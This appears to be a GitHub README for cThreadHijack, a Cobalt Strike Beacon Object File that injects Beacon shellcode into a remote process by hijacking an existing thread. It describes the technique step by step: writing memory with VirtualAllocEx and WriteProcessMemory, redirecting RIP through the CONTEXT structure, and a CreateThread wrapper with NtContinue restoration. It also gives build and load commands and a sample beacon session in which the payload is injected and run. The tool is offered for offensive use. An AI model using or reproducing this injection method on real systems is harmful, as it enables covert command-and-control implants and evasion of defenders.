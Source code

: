 ## cThreadHijack
```
     ___________.__                              .______ ___ .__     __               __    
  ___\__    ___/|  |_________   ____ _____     __| _/   |   \|__|   |__|____    ____ |  | __
_/ ___\|    |   |  |  \_  __ \_/ __ \\__  \   / __ /    ~    \  |   |  \__  \ _/ ___\|  |/ /
\  \___|    |   |   Y  \  | \/\  ___/ / __ \_/ /_/ \    Y    /  |   |  |/ __ \\  \___|    < 
 \___  >____|   |___|  /__|    \___  >____  /\____ |\___|_  /|__/\__|  (____  /\___  >__|_ \
     \/              \/            \/     \/      \/      \/    \______|    \/     \/     \/
```
Beacon Object File (BOF) for remote process injection, via thread hijacking, without spawning a remote thread. cThreadHijack works by injecting raw Beacon shellcode, generated via a user-supplied listener argument, into a remote process, defined by the user-supplied PID argument, via `VirtualAllocEx` and `WriteProcessMemory`. Then, instead of spawning a new remote thread via `CreateRemoteThread` or other APIs, cThreadHijack identifies the first enumerated thread in the target process, suspends it, and retrieves the contents of the thread's CPU state via a `CONTEXT` structure. Then, the RIP register member of the `CONTEXT` structure (on 64-bit systems) is manipulated to point to the address of the aforementioned remote Payload. Prior to execution, a routine is added to wrap the Beacon shellcode inside of a call to `CreateThread` - giving Beacon its own thread to work in, with this thread being locally spawned, versus being spawned remotely. The `CreateThread` routine is also wrapped in an `NtContinue` function call routine, allowing restoration of the previously hijacked thread without crashing the remote process. Beacon payloads for cThreadHijack are generated with a 'thread' exit function, allowing process continuation after the Beacon has been exited. Beacon listener names, when containing a space, must be placed in quotes.

### BUILDING: ###
1. On a Windows machine, open a `x64 Native Tools Command Prompt for VS` prompt. This can be done by pressing the Windows key and typing `x64 Native Tools` and selecting the prompt.
2. Change directory to `C:\path\to\cThreadHijack`.
3. `nmake -f Makefile.msvc build`
4. Load cThreadHijack.cna through the Cobalt Strike `Script Console` with `load /path/to/cThreadHijack.cna`

### USAGE: ###
`cThreadHijack PID LISTENER_NAME`

```
beacon> cThreadHijack 7340 TESTING
[+] host called home, sent: 268433 bytes
[+] received output:
[+] Target process PID: 7340

[+] received output:
[+] Opened a handle to PID 7340

[+] received output:
[+] Found a thread in the target process! Thread ID: 10212

[+] received output:
[+] Suspending the targeted thread...

[+] received output:
[+] Wrote Beacon shellcode to the remote process!

[+] received output:
[+] Virtual memory for CreateThread and NtContinue stubs allocated at 0x201f4ab0000 inside of the remote process!

[+] received output:
[+] Size of NtContinue stub: 48 bytes
[+] Size of CONTEXT structure: 1232 bytes
[+] Size of stack alignment routine: 4
[+] Size of CreateThread routine: 48
[+] Size of shellcode: 261632 bytes

[+] received output:
[+] Wrote payload to buffer to previously allocated buffer inside of!

[+] received output:
[+] Current RIP: 0x7ffa55df69a4

[+] received output:
[+] Successfully pointed the target thread's RIP register to the shellcode!

[+] received output:
[+] Current RIP: 0x201f4ab0000

[+] received output:
[+] Resuming the thread! Please wait a few moments for the Beacon payload to execute...
```

